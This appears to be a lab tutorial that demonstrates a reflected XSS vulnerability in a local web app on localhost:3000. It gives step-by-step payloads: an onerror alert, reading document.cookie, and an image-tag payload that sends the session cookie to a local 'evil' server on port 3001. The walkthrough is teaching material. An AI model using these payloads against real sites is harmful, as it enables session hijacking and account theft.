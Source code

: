 > Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

XSS vulnerabilities are generally used to steal sensitive information (login credentials, authentication tokens, personal user data) as well as perform actions on behalf of authenticated users.


## Proof of Concept

Open the developer tools in your browser (F12) and open the "Console" sub-tab.

Copy/paste the following code into the console and run it:
```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');
```

![](screenshots/xss-screenshot-001.png)

Copy the output and paste it into the address bar so that the URL looks like this:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E
```
Or you can click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi')%22%3E).

If successful, you should see an alert pop-up that says "hi!".

Let's see what else we can do..


## Exploitation

Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.

![](screenshots/xss-screenshot-002.png)

Notice how there is a cookie named "connect.sid". This is a session cookie set by our local web server. Is it possible for us to access this via the XSS vulnerability? Let's try. Repeat the steps from the "Proof of Concept" section above, but with the following code:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode the above HTML and use it as the search query, or (http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

If successful, you should see the contents of the session cookie printed in an alert pop-up.

Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:
```bash
node evil-server.js
```

And now try to use the following code with the XSS vulnerability to steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or (http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).
